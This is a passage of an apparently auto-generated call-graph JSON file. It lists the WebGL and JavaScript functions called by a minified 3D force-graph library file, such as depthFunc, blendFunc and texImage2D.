"EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "onAfterShadow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getRenderTarget"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getActiveCubeFace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getActiveMipmapLevel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setBlending"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setClear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setTest"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setScissorTest"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getFrameExtents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "dispose"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateProjectionMatrix"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setRenderTarget"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getViewportCount"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getViewport"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "viewport"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "updateMatrices"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getFrustum"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setRenderTarget"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "colorMask"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "equals"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clearColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "depthMask"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "depthFunc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "depthFunc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "depthFunc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "depthFunc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "depthFunc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "depthFunc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "depthFunc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "depthFunc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clearDepth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "stencilMask"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "stencilFunc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "stencilOp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clearStencil"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getParameter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getParameter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "exec"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "exec"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getParameter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getParameter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "fromArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "createTexture"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bindTexture"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texParameteri"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texParameteri"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texImage3D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "texImage2D"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "enable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "disable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setClear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setClear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setClear"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFunc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "blendEquationSeparate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "blendFuncSeparate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "equals"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "blendColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "blendFuncSeparate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "blendFunc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "blendFuncSeparate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "blendFuncSeparate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "blendFuncSeparate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "blendFunc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "blendFuncSeparate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "blendFunc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "frontFace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "frontFace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cullFace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cullFace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cullFace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "polygonOffset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bindFramebuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "drawBuffers"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "useProgram"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFunc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setTest"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setMask"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setMask"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setTest"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setMask"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setFunc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "setOp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "lineWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "activeTexture"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "activeTexture"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bindTexture"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bindTexture"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getUniformBlockIndex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "uniformBlockBinding"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "equals"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "scissor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "equals"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "viewport"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "disable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "disable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "disable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "disable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "disable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "disable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "disable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "blendEquation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "blendFunc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "blendFuncSeparate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "blendColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "colorMask"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clearColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "depthMask"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "depthFunc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clearDepth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "stencilMask"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "stencilFunc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "stencilOp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "clearStencil"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "cullFace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "frontFace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "polygonOffset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "activeTexture"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bindFramebuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bindFramebuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "bindFramebuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "useProgram"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "lineWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "scissor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "viewport"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "ceil"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "ceil"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "ceil"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "ceil"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "ceil"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "ceil"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "drawImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "generateMipmap"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "getTransfer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "log2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/3d-force-graph-1.73.4.min.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": 